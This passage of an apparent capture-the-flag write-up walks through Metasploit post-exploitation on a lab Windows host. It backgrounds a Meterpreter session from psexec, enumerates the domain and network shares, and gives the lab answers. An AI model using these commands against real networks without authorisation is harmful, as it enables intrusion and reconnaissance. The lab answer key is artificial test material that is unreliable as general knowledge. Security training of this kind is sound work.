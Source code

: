 Hint: 
Use the "post/windows/gather/enum_domain" module. You will need to "background" Meterpreter first and set the "SESSION" parameter.

step 9: 
```
background
```
```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > 
```

step 10: session -i to check if the session still running
```
session -i
```
step 11: use the "post/windows/gather/enum_domain" module

step 12: set the session running meterpreter session 1 as parameter

```
set session 1
run
```
```
msf6 post(windows/gather/enum_domain) > set session 1
session => 1
msf6 post(windows/gather/enum_domain) > run

[+] Domain FQDN: FLASH.local
[+] Domain NetBIOS Name: FLASH
[+] Domain Controller: ACME-TEST.FLASH.local (IP: 10.10.182.21)
[*] Post module execution completed
msf6 post(windows/gather/enum_domain) > 
```
---
What is the name of the share likely created by the user?
speedster (step 13-15)

step 13: use the "post/windows/gather/enum_shares" module

step 14: set session 1

step 15: run
```

msf6 post(windows/gather/enum_shares) > set session 1
session => 1
msf6 post(windows/gather/enum_shares) > run

[*] Running module against ACME-TEST (10.10.182.21)
[*] The following shares were found:
[*] 	Name: SYSVOL
[*] 	Path: C:\Windows\SYSVOL\sysvol
[*] 	Remark: Logon server share 
[*] 	Type: DISK
[*] 
[*] 	Name: NETLOGON
[*] 	Path: C:\Windows\SYSVOL\sysvol\FLASH.local\SCRIPTS
[*] 	Remark: Logon server share 
[*] 	Type: DISK
[*] 
[*] 	Name: speedster
[*] 	Path: C:\Shares\speedster
[*] 	Type: DISK
[*] 
[*] Post module execution completed
```